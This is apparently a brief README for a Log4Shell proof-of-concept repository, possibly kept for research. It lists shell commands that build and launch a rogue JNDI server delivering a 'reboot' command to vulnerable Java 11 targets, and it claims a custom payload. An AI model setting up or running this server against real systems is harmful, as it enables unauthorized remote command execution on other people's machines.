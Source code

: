 # log4shell-poc 

MOVED HERE - https://github.com/chains-project/exploits-for-sbom.exe

## How we are different
1. We provide a custom payload
2. Found no other documentation of it only working for specific Java 11

## To start JNDI server
```shell
cd rogue-jndi
mvn clean package -DskipTests
java -jar target/RogueJndi-1.1.jar --command reboot
```
